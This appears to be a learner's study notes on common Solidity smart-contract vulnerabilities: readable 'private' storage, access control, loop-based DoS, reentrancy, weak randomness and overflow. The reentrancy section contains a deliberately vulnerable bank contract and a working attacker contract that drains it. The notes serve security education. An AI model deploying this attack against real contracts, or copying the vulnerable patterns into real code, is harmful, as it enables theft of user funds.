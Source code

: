A great collection of Common Issues can be fonud in https://github.com/Cyfrin/sc-exploits-minimized. They are amazing!

## 1.PRIVATE IS NOT ACTUALLY PRIVATE!
If you have a Solidity variable that is for instance a passowrd stored as string private s_Privatepassword, it is not actually private.

If we use foundry command ``bash cast storage <contract address> <variable number>`` we get in hex and then we can use ``cast parse-bytes32-string <0xblabla>`` to read it.

## 2. ACCESS CONTROL
Is there a hirearchy in the contract? Can everyone access everything? or should only be certain contracts or owner?


## 3. LOOPS! CAn allow for DoS
In the following example from UpdraftCyfrin course. For every new player, the gas cost willbe higher because you have to loop more times. if the attackar calls the function gasilion times, at the end only gasilioners will be able to enter raffle.

```javascript
function enterRaffle(address[] memory newPlayers) public payable {
    //Audit I: It is not possible to enter yourself multiple times, as the function will revert if there are any duplicates
    //Audit I: No error is being emitted if the entranceFee is not sent
    require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
    for (uint256 i = 0; i < newPlayers.length; i++) {
        players.push(newPlayers[i]);
    }

    // Check for duplicates
    //Audit I: This is very gas inefficient
    for (uint256 i = 0; i < players.length - 1; i++) {
        for (uint256 j = i + 1; j < players.length; j++) {
            require(players[i] != players[j], "PuppyRaffle: Duplicate player");
        }
    }
    emit RaffleEnter(newPlayers);
}
```
## 4. Reentrancy attacks. specially for functions that send money and LATER update state. Attacker can use this vulnerability via an attack contract with a recieve() function that calls again the sending money function.

```javascript
contract VulnerableBank {
    mapping(address => uint256) public balances;

    // Function to deposit Ether into the bank
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    // Vulnerable function to withdraw Ether
    function withdraw(uint256 _amount) public {
        require(balances[msg.sender] >= _amount, "Insufficient balance");

        // Send Ether to the caller
        (bool success, ) = msg.sender.call{value: _amount}("");
        require(success, "Transfer failed");

        // Update the balance after sending Ether
        balances[msg.sender] -= _amount;
    }

    // Check the contract's balance
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}

```
As it can be seen in withdraw the balance is updated after the call function which allows for an attacker with a contracte like the one below to call it several times before balance is set to0.

```javascript
contract Attacker {
    VulnerableBank public vulnerableBank;
    address public owner;

    constructor(address _vulnerableBankAddress) {
        vulnerableBank = VulnerableBank(_vulnerableBankAddress);
        owner = msg.sender;
    }

    // Function to attack the bank by calling the vulnerable withdraw function
    function attack() public payable {
        require(msg.value >= 1 ether, "Minimum 1 ether required to attack");

        // Deposit some Ether to initiate the exploit
        vulnerableBank.deposit{value: msg.value}();

        // Start the recursive withdrawal
        vulnerableBank.withdraw(msg.value);
    }

    // Fallback function gets triggered when Ether is received
    receive() external payable {
        // Re-enter the vulnerable withdraw function if the balance in the bank is still available
        if (address(vulnerableBank).balance > 0) {
            vulnerableBank.withdraw(msg.value);
        }
    }

    // Allows the attacker to withdraw all stolen funds
    function withdrawFunds() public {
        require(msg.sender == owner, "Not the owner");
        payable(owner).transfer(address(this).balance);
    }
}
```
## 5. WEAK RANDOMNESS

What happens is that tis next way of getting random number is very exploitable:
``` javascript
     */
    function getRandomNumber() external view returns (uint256) {
        uint256 randomNumber = uint256(keccak256(abi.encodePacked(msg.sender, block.prevrandao, block.timestamp)));
        return randomNumber;
    }
```
(this next pieace of info is taken directly from updraftcyfrin.io course:
### block.timestamp

Relying on block.timestamp is risky for a few reasons as node validators/miners have privileges that may give them unfair advantages.

The validator selected for a transaction has the power to:

* Hold or delay the transaction until a more favorable time
* Reject the transaction because the timestamp isn't favorable

Timestamp manipulation has become less of an issue on Ethereum, since the merge, but it isn't perfect. Other chains, such as Arbitrum can be vulnerable to several seconds of slippage putting randomness based on `block.timestamp` at risk.

### block.prevrandao

`block.prevrandao` was introduced to replace `block.difficulty` when the merge happened. This is a system to choose random validators.

The security issues using this value for randomness are well enough known that many of them are outlined in the **[EIP-4399](https://eips.ethereum.org/EIPS/eip-4399)** documentation already.

The security considerations outlined here include:

**Biasability:** The beacon chain RANDAO implementation gives every block proposer 1 bit of influence power per slot. Proposer may deliberately refuse to propose a block on the opportunity cost of proposer and transaction fees to prevent beacon chain randomness (a RANDAO mix) from being updated in a particular slot.

**Predictability:** Obviously, historical randomness provided by any decentralized oracle is 100% predictable. On the contrary, the randomness that is revealed in the future is predictable up to a limited extent.

### msg.sender

Any field controlled by a caller can be manipulated. If randomness is generated from this field, it gives the caller control over the outcome.

By using msg.sender we allow the caller the ability to mine for addresses until a favorable one is found, breaking the randomness of the system.

## 6. Overflows and weak Typecasts

In Solidity versions prio to 0.8.0, variables would reset with overflows, meaning a uint8 that got 255 if added 1 would go back to 0 and start over.
In Solidity versios post 0.8.0 happens the same with Typecasts, if you have a variable and typecats it to uint8, it will overflow and reset if goes over 255.


